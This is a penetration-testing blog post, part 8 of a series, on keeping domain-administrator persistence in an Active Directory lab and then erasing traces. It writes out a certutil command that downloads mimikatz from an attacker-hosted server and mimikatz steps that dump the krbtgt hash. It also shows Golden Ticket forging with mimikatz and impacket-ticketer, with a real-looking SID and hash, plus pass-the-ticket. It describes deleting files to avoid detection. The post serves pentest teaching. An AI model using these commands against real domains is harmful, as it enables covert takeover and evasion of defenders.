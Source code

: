 ```yaml
---
layout: post
title: PENTESTING METHODOLOGY TOWARDS AN ACTIVE DIRECTORY. PERSISTENCE AND TRACE ERASURE
  (PART 8) (EN)
categories:
- english
tags:
- methodology
- pentesting
- Active Directory
img_path: "/assets/img/posts/20230131/"
date: 2023-01-31 00:00 +0000
---
```

Hello everyone,

Once all the available attacks are executed and access is gained as a low privileged user, if this happens, the pentester will try to get administration permissions to install a backdoor to obtain persistence in the systems, once persistence is obtained, all traces must be deleted to avoid detection.

# Introduction 

After obtaining the passwords of administrator users, by means of the ASREPRoast attack seen in the previous post and connecting to the AD as administrator, persistence must be established on the machine, in order to maintain administrator privileges on the machines even if they are rebooted or the users change their passwords.

For the removal of traces after the execution of the vulnerabilities, a clean-up of the compromised systems must be performed, from scripts and/or binaries or other types of files used temporarily. On the other hand, the
system configuration must also be restored to its state before the original audit and the backdoor must be removed, if it was a true audit.


![Persistence](persistencia.png){: width="1232" height="554" }
_Persistence_

# Persistence

The tool we are going to use to establish persistence is [**mimikatz**](https://github.com/ParrotSec/mimikatz) which will be downloaded to the AD, using the impacket-psexec connection tool seen above and executing the command:

```bash
certutil.exe -f -urlcache -split http://192.168.140.128:8000/mimikatz.exe mimikatz.exe
```
This will download the tool from a web server hosted by the attacker.

## Golden Ticket & Silver Ticket

The function of the Golden Ticket attack is to construct a [**TGT**](https://www.tarlogic.com/es/blog/tickets-de-kerberos-explotacion/). This requires the hash of the krbtgt account, the account used to encrypt the Ticket. Once this hash is obtained, a TGT can be generated with the required expiry time and, among other things, any desired permissions can be granted, domain administrator rights can be obtained, etc.

Therefore, you should consider that the validity of the TGT depends on two things: the specified expiry time and the NTLM hash (the password of the krbtgt account) in which it is encrypted. If the password of the krbtgt account expires or is changed, the ticket remains valid regardless of whether the password of the impersonated user has expired.

Silver Ticket is similar, but this time the ticket generated is an ST, which requires the NTLM hash of the domain account associated with the service you wish to access. As indicated above, the hash of the krbtgt account must be obtained, so from the mimikatz tool, as seen above, run this command to obtain all the information of the krbtgt user account.


```bash
lsadump::lsa /inject /name:krbtgt
```

![Mimikatz lsadump tool](mimikatz-lsadump.png){: width="972" height="589" }
_Mimikatz lsadump tool_


With this data, a file is generated which will save the TGT (.kirbi) and which can be accessed from any computer in the domain, by executing the following command:

```bash
kerberos::golden /domain:jcaballer.local /sid:S-1-5-21-2113225452-1616628721-3036420712 /rc4:68d55b3d5bb0eafe54b8aa8ef608cb28 /user:jcaballeradm / ticket:gold.kirbi
```

Where the sid parameter is the user id krbtgt, the rc4 is the NTML hash, the user parameter is the user to log in with and the ticket parameter is where the Ticket will be saved.

![Mimikatz tool kerberos::golden](mimikatz-golden.png){: width="972" height="589" }
_Mimikatz tool kerberos::golden_

From any machine belonging to the AD with these documents, administrator access can be obtained. To perform the test in this project, first check that access is not obtained, and then check that it is, as can be seen in the following image.  

![Access test without Golden Ticket](no-golden.png){: width="972" height="589" }
_Access test without Golden Ticket_

After importing the Golden Ticket, it is verified that it can be accessed from any machine in the AD with the mimikatz command:

```bash
kerberos::ptt gold.kirbi
```

![Golden Ticket entrance test](si-golden.png){: width="972" height="589" }
_Golden Ticket entrance test_

Another tool that can be used to carry out this attack is [**impacket-ticketer**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/ticketer.py) which will first create and save a Golden Ticket for the user of your choice which will be all encrypted/signed using RC4; if you specify -aesKey instead of -ntHash everything will be encrypted using AES128 or AES256 (depending on the key specified) and also no traffic is generated against the KDC. 

For this purpose the command, where the id and NTLM hash of the user krbtgt is given, will be used on the domain with the admin user.

```bash
impacket-ticketer -nthash 68d55b3d5bb0eafe54b8aa8ef608cb28 -domain-sid S-1-5-21-2113225452-1616628721-3036420712 -domain jcaballer.local jcaballeradm
```

![Impacket-ticketer tool](impacket-ticketer.png){: width="972" height="589" }
_Impacket-ticketer tool_

# Deletion of traces

After achieving persistence on all the AD machines, all the files that have been uploaded to them, whether they are scripts or documentation, must be deleted. In the case of this project, several files have been downloaded to the AD machines, such as the PowerShell script that returned a reverse shell to the attacker's machine, the mimikatz tool or the file to make a copy of the disk, so all these files must be deleted.

# Final status

Finally, the pentester has done its job following the methodology outlined above.

![Final Status](estado.png){: width="1232" height="554" }
_Final Status_

___

# Conclusion

This would be all to obtain persistence in the environment and erase the traces that we may have left, with this ends the methodology presented to do the pentesting. However, I will publish two more posts where I will include some security proposals that can be used by system administrators and a small conclusion of the final project.